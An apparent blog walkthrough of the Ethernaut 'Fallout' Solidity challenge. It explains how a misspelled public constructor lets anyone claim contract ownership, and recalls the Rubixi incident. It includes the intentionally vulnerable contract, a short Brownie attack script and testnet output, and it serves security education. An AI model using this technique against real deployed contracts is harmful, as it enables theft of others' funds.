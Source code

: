 ```yaml
---
title: Ethernaut - Level 02 - Fallout
date: 2022-08-02
---
```

{{<figure src="../images/fallout-2.svg" caption="Image courtesy of OpenZeppelin">}}
## Ethernaut 02 - Fallout
The goal for this level is to claim ownership of the contract, which has the following implementation: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
Contrarily to the previous level, this one is really simple and will teach us about constructors and the `public` modifier in Solidity.

Ethernaut challenges recreate issues that may no longer exist in recent versions of Solidity, but still are a good exercise on how to securely code smart contracts.

Up to Solidity 0.4.21, constructors could be defined using the same name of its contract name, although this could cause unintended bugs when contracts were renamed and their constructors were not.

Precisely to avoid this behavior Solidity introduced the `constructor` keyword. Which according to Solidity's documentation, constructors are caracterized for:

- Being optional functions which are executed upon contract creation, and can be used to run contract initialisation code
- Before the constructor code is executed, state variables are initialised to their specified value (inline), or their default value.
- If there is no constructor, the contract will assume thhe default constructor, equivalent to `constructor() {}`.

Additionally, Solidity has four types of visibility for functions:

- **external** -- Part of the contract interface, and therefore can be called from other contracts and via transactions, with the unusual characteristic that external functions **cannot be called internally**.
- **public** -- Also part of the contract interface, **can be called internally** or via message calls
- **internal** -- Can only be accessed from within the current contract or contracts deriving from it. They cannot be accessed externally.
- **private** -- Functions are not visible in derived contracts.

Understanding these concepts will help us complete this challenge.

## Where is the vulnerability?
One particular thing that should get our attention is the contract's name, and the comment before the `Fal1out` method declaration:


```solidity {lineos=table,hl_lines=[1,7,8],lineofstart=1}
contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

As mentioned before, Solidity versions prior 0.5.0, required a constructor to be called with the same name as the contract, however, the security issue with this contract is that there is a typo and the function that should act as constructor has been named `Fal1out`, rather than `Fallout`, and uses the `public` attribute, meaning, it can be called by anyone.

If we review its code, whoever calls the `Fal1out` method will become its legitimate owner and therefore will be able to drain its funds.

```solidity {lineos=table,hl_lines=[1],lineofstart=1}
    owner = msg.sender;
    allocations[owner] = msg.value;
```

This vulnerability is rare to occur in recent versions of Solidity, since contracts are now forced to use the `constructor` keyword.

 Something as simple as this is what happened with the Rubixi incidence, where the developer renamed the contract’s name from `DynamicPyramid` to `Rubixi`, but forgot to rename the constructor function from `DynamicPyramid()` to `Rubixi()` and as result attackers could publicly invoke the `DynamicPyramic()` function and obtain control of the contract, transferring its ethers out.

```solidity {lineos=table,hl_lines=[1,13,14],lineofstart=1}
contract Rubixi {

        //Declare variables for storage critical to contract
        uint private balance = 0;
        uint private collectedFees = 0;
        uint private feePercent = 10;
        uint private pyramidMultiplier = 300;
        uint private payoutOrder = 0;

        address private creator;

        //Sets creator
        function DynamicPyramid() {
                creator = msg.sender;
        }
...omitted for brevity...
```

**See the similarities?** Now let's explain how to exploit this contract!


## Hacking the contract
Following our steps from previous level, we will continue using brownie for the exploitation of this contract.

For this particular level we will create a simple interface which require access to the `owner()` and `Fal1out()` function, as shown below:

```solidity {lineos=table,hl_lines=[5,6],lineofstart=1}
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IFallout {
    function owner() external view returns (address payable);
    function Fal1out() external payable;
}
```

Our script to attack the contract and drain all the Ethers will be pretty straightforward:

```python {lineos=table,hl_lines=[5],lineofstart=1}
from brownie import accounts, config, interface, web3, Fallout

def attack(target, hacker):
    fallout = interface.IFallout(target)
    fallout.Fal1out({"from": hacker})
    print(f"Owner is hacker: {fallout.owner() == hacker}")


def main(target):
    hacker = accounts.add(config['wallets']['from_key'])
    attack(target, hacker)
```

In this case we have a `main` function which receives as parameter the contract’s address that we are aiming to attack, and the `attack` method, which receives the `target` and `hacker` parameters. This method is the one that will claim ownership of the contract right after calling its constructor through the `fallout.Fal1out` call, as shown below:

```bash
root@vmi828562 ~/r/e/fallout-02 [1]# brownie run attack main "0xD48037e289Be89083bE8e58dFC74bd578D6523e3" --network rinkeby
Brownie v1.18.1 - Python development framework for Ethereum

Fallout02Project is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0x11be0d3bac8cc87cfa19b8bf03a4ecc7760b441d6ab6d0b5e801a0f436ea9300
  Gas price: 1.16223081 gwei   Gas limit: 50442   Nonce: 21
  Transaction confirmed   Block: 10722650   Gas used: 45767 (90.73%)

Owner is hacker: True
```

## Takeaways
As usual, we like to wrap up each challenge with some recommendations or lessons learnt. In this case I think the most valuable lesson is to learn about what constructors are and how they should be declared.

But it is also a good opportunity to introduce [security analysis tools](https://consensys.net/diligence/tools/) that can help us discover vulnerabilities in our Ethereum smart contract code during its development life cycle.